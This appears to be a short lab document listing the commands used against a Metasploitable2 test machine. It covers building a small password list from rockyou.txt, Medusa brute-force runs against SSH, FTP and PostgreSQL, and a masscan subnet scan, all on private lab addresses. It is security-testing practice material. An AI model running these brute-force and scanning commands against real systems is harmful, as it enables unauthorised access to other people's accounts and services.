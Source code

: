 # Attack Tool Commands

## Description

This document contains the commands used to run the attack tools against services running on the Metasploitable2 virtual machine.

## Medusa

For each of the services tested, the hostname used is `msfadmin` and the password list used is `password_list.txt`. The password list was generated using using the first 28 passwords from the `rockyou.txt` password list with two additional passwords `msfadmin` and `postgres` added to the end of the list to generate found cases.

The command used to generate the `password_list.txt` file is:

```bash
tail -n +10 rockyou.txt | head -n 28 > password_list.txt && echo "msfadmin" >> password_list.txt && echo "postgres" >> password_list.txt
```

```bash
# SSH Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ssh -n 22

# FTP Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ftp -n 21

# PostgreSQL Brute Force
medusa -h 192.168.1.100 -u postgres -P password_list.txt -M postgres -n 5432
```

## Masscan

```bash
sudo masscan 192.168.1.0/24 -p21-80 --banners --source-ip 192.168.1.98 --interface eth1
```
